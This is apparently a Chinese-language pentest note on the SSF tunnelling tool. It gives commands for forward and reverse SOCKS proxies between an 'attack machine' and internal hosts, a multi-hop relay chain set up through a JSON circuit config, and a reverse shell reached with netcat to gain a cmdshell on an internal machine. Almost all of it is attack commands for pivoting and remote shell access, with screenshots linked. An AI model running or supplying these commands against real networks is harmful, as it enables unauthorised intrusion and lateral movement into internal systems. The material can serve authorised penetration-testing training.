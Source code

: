	https://github.com/securesocketfunneling/ssf/releases
  #### 正向socks代理
	边界机器执行：
	>ssfd.exe -p 1080 linux执行：./ssfd -p 1080
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/350.png)

	攻击机执行：
	>ssf.exe -D 12138 -p 1080 192.168.0.98(边界机器IP)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/351.png)

	本机配置proxychain或proxifier
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/352.png)
  #### 反向socks代理
	攻击机执行：
	>ssfd.exe -p 1080
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/353.png)

	内网机器执行：
	>ssf.exe -F 12138 -p 1080 192.168.0.106(攻击机IP)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/354.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/355.png)
  #### 多级级联
	多级内网机执行：
	>ssfd.exe -p 1080 -c config.json
	Json文件加入字段
	"circuit": [ 
	{"host": "A中继机IP", "port":"1080"}, 
	{"host": "B中继机IP", "port":"1080"} 
	],
	所有中继机执行：
	>ssfd.exe -p 1080 -c config.json
	边界机器执行：
	>ssf.exe -c config.json -p 1080 多级内网机IP -X 12138
	边界机执行：
	>nc.exe 127.0.0.1 12138即可获得多级内网机cmdshell
  #### 反弹shell
	攻击机执行：
	>ssfd.exe -p 1080 -c config.json
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/356.png)

	内网机器执行：
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/357.png)

	攻击机执行：
	>nc 127.0.0.1 12138
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/358.png)
